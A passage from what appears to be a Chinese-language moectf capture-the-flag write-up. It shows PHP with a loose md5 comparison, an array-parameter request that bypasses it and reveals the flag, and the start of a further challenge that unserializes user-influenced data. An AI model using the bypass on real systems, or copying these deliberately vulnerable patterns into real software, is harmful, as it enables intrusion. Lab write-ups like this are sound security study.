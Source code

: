 读取`Fl3g_n0t_Here_dont_peek!!!!!.php`内容：

```php
<?php

highlight_file(__FILE__);

if (isset($_GET['param1']) && isset($_GET['param2'])) {
    $param1 = $_GET['param1'];
    $param2 = $_GET['param2'];

    if ($param1 !== $param2) {
        
        $md5Param1 = md5($param1);
        $md5Param2 = md5($param2);

        if ($md5Param1 == $md5Param2) {
            echo "O.O!! " . getenv("FLAG");
        } else {
            echo "O.o??";
        }
    } else {
        echo "o.O?";
    }
} else {
    echo "O.o?";
}

?> O.o?
```

经典md5若比较，数组绕过秒了

```
GET /Fl3g_n0t_Here_dont_peek!!!!!.php?param1[]=1&param2[]=2
```

获得flag

```
moectf{oops_file_get_contents_controllable_gps_Lg6qE0PRs7vOoLfQqhTFBi_-NpSS}
```

### 夺命十三枪

index.php

```php
<?php
highlight_file(__FILE__);

require_once('Hanxin.exe.php');

$Chant = isset($_GET['chant']) ? $_GET['chant'] : '夺命十三枪';

$new_visitor = new Omg_It_Is_So_Cool_Bring_Me_My_Flag($Chant);

$before = serialize($new_visitor);
$after = Deadly_Thirteen_Spears::Make_a_Move($before);
echo 'Your Movements: ' . $after . '<br>';

try{
    echo unserialize($after);
}catch (Exception $e) {
    echo "Even Caused A Glitch...";
}
?>
```